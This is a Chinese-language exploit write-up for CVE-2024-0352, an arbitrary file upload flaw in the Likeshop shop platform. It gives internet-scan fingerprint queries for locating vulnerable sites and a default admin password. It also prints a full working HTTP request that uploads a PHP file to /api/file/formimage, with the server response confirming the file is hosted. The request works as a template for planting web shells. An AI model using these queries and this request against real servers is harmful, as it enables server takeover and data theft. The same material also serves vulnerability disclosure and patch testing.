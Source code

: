 # CVE-2024-0352

> **Created by：** A-little-dragon
>
> **Team：** TracelessSec
>
> **漏洞描述：** Likeshop任意文件上传



## 漏洞描述

Likeshop是一个100%开源免费的B2B2C多商户商城系统，支持官方旗舰店，商家入驻，平台抽佣+商家独立结算，统一下单+订单拆分等功能。该产品存在任意文件上传，攻击者可通过此漏洞上传木马获取服务器权限。

## 影响版本

```python
version<= 2.5.7.20210311
```

## 网络空间测绘语法

### FOFA

```bash
icon_hash="874152924”
```

### 鹰图

```bash
web.icon=="b2e68d0acf5b3117f88421799920ab98”
```

### 夸克

```bash
favicon: "b2e68d0acf5b3117f88421799920ab98”
```

## 漏洞复现

### 弱口令

**账号：** admin **密码：** 123456

![Untitled](image/Untitled.png)

![Untitled](image/Untitled%201.png)

### Exp

**Request 包**

```python
POST /api/file/formimage HTTP/1.1
Host: xxxxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/111.0
Accept-Encoding: gzip, deflate, br
Accept: */*
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryJpMyThWnAxbcBBQc
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Length: 206

------WebKitFormBoundaryJpMyThWnAxbcBBQc
Content-Disposition: form-data; name="file";filename="phpinfo.php"
Content-Type: application/x-php

<?php phpinfo();?>
------WebKitFormBoundaryJpMyThWnAxbcBBQc--
```

**response 包**

```python
HTTP/1.1 200 OK
Server: nginx
Date: Thu, 18 Jan 2024 01:26:18 GMT
Content-Type: application/json; charset=utf-8
Connection: keep-alive
Access-Control-Allow-Origin: *
Access-Control-Allow-Headers: Authorization, Sec-Fetch-Mode, DNT, X-Mx-ReqToken, Keep-Alive, User-Agent, If-Match, If-None-Match, If-Unmodified-Since, X-Requested-With, If-Modified-Since, Cache-Control, Content-Type, Accept-Language, Origin, Accept-Encoding,Access-Token,token
Access-Control-Allow-Methods: GET, POST, PATCH, PUT, DELETE, post
Access-Control-Max-Age: 1728000
Access-Control-Allow-Credentials: true
Content-Length: 233

{"code":1,"msg":"上传文件成功","data":{"url":"http:\/\/xxxxxxxxxxx\/uploads\/user\/xxxxxxxxxxxx.php","base_url":"uploads\/user\/xxxxxxxxxxxx.php","name":"phpinfo.php"},"show":0,"time":"0.086435"}

```

![Untitled](image/Untitled%202.png)
